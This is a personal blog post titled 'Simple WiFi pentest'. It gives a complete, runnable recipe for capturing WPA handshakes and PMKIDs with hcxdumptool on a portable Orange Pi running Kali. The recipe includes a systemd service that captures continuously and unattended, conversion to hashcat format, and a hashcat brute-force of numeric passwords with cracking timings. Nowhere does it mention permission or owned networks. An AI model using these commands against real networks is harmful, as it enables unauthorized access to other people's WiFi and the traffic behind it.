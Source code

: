 +++
title = "Simple WiFi pentest"
date = "2023-11-16T20:36:04+04:00"
author = "gals"
authorTwitter = "" #do not include @
cover = ""
tags = ["wifi", "kali", "gentoo", "orange pi5"]
keywords = ["wifi", "kali", "gentoo", "orange pi5"]
description = "Simple WiFi pentest"
showFullContent = false
readingTime = true
hideComments = true
color = "" #color from the theme settings
+++

# Simple WiFi pentest

## Hardware
### Orange Pi 5 + TP-Link Archer T2U PLUS [RTL8821AU]
The OS is [Kali Linux](https://github.com/leeboby/kali-images). Don't forget to do `rm /boot/*cloud-arm64* && /usr/sbin/u-boot-update`  after `apt update && apt upgrade` otherwise you can't boot after reboot. In my case, the main reason for the appearance incorrect kernel is `apt install wireguard`. As you can see
```
└─# apt depends wireguard
wireguard
 |Depends: <wireguard-modules> (>= 0.0.20191219)
    linux-image-arm64
    linux-image-cloud-arm64
```
you can use it in any place with powerbank.

### Some computer with video card
In my case it's Gentoo with GeForce RTX 3070 Lite Hash Rate

## Orange PI 5

### Prepare

```bash
apt update
apt install tshark hcxdumptool hcxtools iw bettercap
```

### Run

```bash
# Setup monitor mode
ip link set wlan0 down && iw wlan0 set monitor none && ip link set wlan0 up
# Run tool for hcxdumptool 6.3.1 (C) 2023 ZeroBeat
hcxdumptool -i wlan0 -w wlan0.pcapng
# wait
```

You can use systemd service like this

```
[Unit]
Description=WiFi scan

[Service]
Type=simple
Environment=TERM=xterm
ExecStartPre=/usr/bin/ip link set wlan0 down
ExecStartPre=/usr/sbin/iw wlan0 set monitor none
ExecStartPre=/usr/bin/ip link set wlan0 up
ExecStartPre=-/usr/bin/bash -c '/usr/bin/mv /var/log/wifi-dump/wlan0.pcapng /var/log/wifi-dump/wlan0-$(date +%%Y%%m%%d-%%H%%M%%S).pcapng'
ExecStart=bash -c 'TERM=xterm; /usr/bin/hcxdumptool -i wlan0 -w /var/log/wifi-dump/wlan0.pcapng'
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target
```


After or during waiting
```bash
# Dump to hc22000 file format, watch into 'PMKID (best)'
hcxpcapngtool -o wlan0.hc22000 wlan0.pcapng
# Get info from wlan0.hc22000
hcxhashtool -i wlan0.hc22000 --info=stdout
```

You can run something like this `bettercap -iface wlan0 -eval 'wifi.recon on; set ticker.period 5; set ticker.commands "wifi.show"; ticker on'` at the same time for watching in real time.



## Gentoo

### Prepare

```bash
eselect repository enable pentoo
eix-sync
eix-update
emerge hcxtools
```

### Try to find something interesting

Simple ans stupid brute force with all digest from 000000000 (minimal wifi password length) to 999999999999 (like mobile phone number)

```shell
hashcat -m 22000 wlan0.hc22000 -a3 --increment -w3 \
  --increment-max 11 \
  --increment-min 8 \
  '?d?d?d?d?d?d?d?d?d?d?d'
# press s to check status
# run any time if you want get current status with the found
hashcat -m 22000 wlan0.hc22000 --show
```

**Timings:**
- 8 digits ~ 18 minutes
- 9 digits ~ 3 hours
- 10 digits ~ 1 day, 5 hours
- 11 digist ~ 12 days, 9 hours

